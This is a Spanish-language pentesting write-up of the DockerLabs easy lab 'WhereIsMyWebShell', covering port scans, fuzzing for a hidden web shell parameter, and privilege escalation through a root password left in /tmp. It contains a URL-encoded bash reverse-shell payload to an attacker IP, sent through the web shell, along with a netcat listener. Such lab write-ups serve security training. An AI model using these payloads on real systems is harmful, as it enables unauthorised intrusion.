# 📘 Informe de Pentesting - WhereIsMyWebShell (Nivel Fácil)

## 🎯 Objetivo

El objetivo de esta máquina vulnerable es identificar y explotar una **web shell oculta**, acceder al sistema, y finalmente obtener privilegios de **root**.

---

## 📝 Descripción

Se trabajó con una máquina vulnerable descargada desde DockerLabs. El análisis incluye desde el reconocimiento de puertos hasta la escalada de privilegios. Este informe explica todo el proceso paso a paso con soporte visual para facilitar la comprensión.



---

## ⚙️ Despliegue de la Máquina

1. **Descarga y descompresión**
   Descargamos el archivo `whereismywebshell.zip` desde DockerLabs y lo descomprimimos:

   ```bash
   unzip whereismywebshell.zip
   ```

2. **Ejecución de la máquina**
   Luego, se desplegó la máquina con el script de despliegue:

   ```bash
   sudo bash auto_deploy.sh whereismywebshell.tar
   ```

   

---

## 📡 Verificación de Conectividad

Para verificar que la máquina esté activa, se le hace ping a la IP asignada (por ejemplo, `172.17.0.3`):

```bash
ping -c 3 172.17.0.3
```



---

## 🔎 Reconocimiento de Puertos

1. **Escaneo completo de puertos con Nmap**

   ```bash
   sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
   ```

   Se descubrió que el **puerto 80 (HTTP)** está abierto.

   

2. **Escaneo específico del puerto descubierto**

   ```bash
   nmap -sC -sV -p 80 172.17.0.3 -oN target.txt
   ```

   Este comando analiza más a fondo para identificar versiones y servicios.

   

---

## 🌐 Análisis del Sitio Web

Accedemos al navegador en la dirección: `http://172.17.0.3`
Se muestra una página web simple.



---

## 🛠️ Descubrimiento de Recursos Ocultos (Fuzzing)

Se utilizó fuzzing (técnica para encontrar recursos ocultos en el servidor) y se encontró lo siguiente:

1. Directorios ocultos
2. En la sección de contacto del archivo `index.html`, se encuentra este mensaje:

```
Guardo un secretito en /tmp ;)
```



Además, se encontró una página sospechosa:
`http://172.17.0.3/warning.html`



---

## 🐚 Explotación: Descubrimiento de Web Shell

Se usó **wfuzz** para probar qué parámetros de `shell.php` ejecutan comandos:

```bash
wfuzz -c -t 50 --hh 0 --hc 404,500 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt "http://172.17.0.3/shell.php?FUZZ=id"
```

Después de probar más de 6000 parámetros, se identificó uno que ejecuta comandos como `id`.



---

## 🖥️ Acceso vía Web Shell

Probando el parámetro descubierto en el navegador, se confirmó que se ejecutan comandos.



---

## 📥 Conexión Reversa (Reverse Shell)

Para obtener una terminal interactiva en nuestra máquina, configuramos un **listener** con `netcat`:

```bash
sudo nc -lvnp 443
```



Desde la Web Shell, se ejecuta el siguiente comando para conectarse a nuestra máquina (IP atacante: `192.168.1.10`):

```bash
http://172.17.0.3/shell.php?parameter=bash+-c+%27bash+-i+%3E%26+/dev/tcp/192.168.1.10/443+0%3E%261%27
```

Esto lanza una **reverse shell**, dándonos acceso como usuario en la máquina remota.




---

## 🔐 Escalada de Privilegios

Recordando el mensaje visto anteriormente (`Guardo un secretito en /tmp ;)`), navegamos al directorio `/tmp/`:

```bash
cd /tmp/
ls -la
```

Encontramos un archivo `.txt` sospechoso. Al visualizarlo con `cat`, revela la **contraseña de root**:

```bash
cat secret.txt
```

Usamos `su` para convertirnos en root:

```bash
su root
# Contraseña: contraseñaderoot123
```

¡Acceso como root conseguido!



---

## 🏁 Conclusión

En esta máquina:

* Se identificó un servicio HTTP vulnerable.
* Se descubrió una **web shell** oculta mediante fuzzing.
* Se ejecutó una **reverse shell** para acceder al sistema.
* Se obtuvo la contraseña de root desde un archivo oculto en `/tmp`.
* Se escalaron privilegios y se obtuvo control total del sistema.

Este reto refuerza habilidades esenciales de pentesting web, como fuzzing, análisis de parámetros, ejecución remota de comandos y escalada de privilegios.
